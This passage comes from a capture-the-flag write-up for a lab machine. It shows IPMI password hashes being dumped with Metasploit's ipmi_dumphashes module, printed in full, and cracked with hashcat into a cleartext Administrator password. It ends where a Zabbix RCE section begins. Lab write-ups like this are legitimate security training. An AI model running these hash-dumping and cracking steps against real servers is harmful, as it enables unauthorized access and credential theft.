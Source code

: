This protocol allows by design to bruteforce users with a dictionary. Upon a valid username the hashes of a user will be sent. One quick way to abuse this is using metasploit's `scanner/ipmi/ipmi_dumphashes` where we only have to set the rhosts option and run the module.

```
msf6 > use scanner/ipmi/ipmi_dumphashes
msf6 auxiliary(scanner/ipmi/ipmi_dumphashes) > set rhosts shibboleth.htb
rhosts => shibboleth.htb
msf6 auxiliary(scanner/ipmi/ipmi_dumphashes) > run

[+] 10.129.255.116:623 - IPMI - Hash found: Administrator:8d6f41d7820800006d998f27a85cfa7ff52e800a9b93ec03bf4f92c3021cf3ecdc1c7debb1ef9695a123456789abcdefa123456789abcdef140d41646d696e6973747261746f72:9c8093e2a8fcac1945bb8abe08e984ce6e73d7db
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```

The hash cracks rather quickly using hashcat leaving us with the credentials `Administrator:ilovepumkinpie1`

```
$ hashcat -m 7300 -O -a 0 hash rockyou.txt
hashcat (v6.2.4) starting
...[snip]...
8d6f41d7820800006d998f27a85cfa7ff52e800a9b93ec03bf4f92c3021cf3ecdc1c7debb1ef9695a123456789abcdefa123456789abcdef140d41646d696e6973747261746f72:9c8093e2a8fcac1945bb8abe08e984ce6e73d7db:ilovepumkinpie1

Session..........: hashcat
Status...........: Cracked
Hash.Mode........: 7300 (IPMI2 RAKP HMAC-SHA1)
Hash.Target......: 8d6f41d7820800006d998f27a85cfa7ff52e800a9b93ec03bf4...73d7db
Time.Started.....: Sat Nov 13 23:21:54 2021 (1 sec)
Time.Estimated...: Sat Nov 13 23:21:55 2021 (0 secs)
Kernel.Feature...: Optimized Kernel
Guess.Base.......: File (rockyou.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........: 10137.0 kH/s (5.64ms) @ Accel:2048 Loops:1 Thr:128 Vec:1
Recovered........: 1/1 (100.00%) Digests
Progress.........: 7865947/14344388 (54.84%)
Rejected.........: 1627/7865947 (0.02%)
Restore.Point....: 5243993/14344388 (36.56%)
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:0-1
Candidate.Engine.: Device Generator
Candidates.#1....: n115701 -> gisellw
Hardware.Mon.#1..: Temp: 43c Fan: 32% Util:  1% Core:1911MHz Mem:4006MHz Bus:16

Started: Sat Nov 13 23:21:47 2021
Stopped: Sat Nov 13 23:21:56 2021
```

## Zabbix RCE

Going back to zabbix we are now able to log into the website.
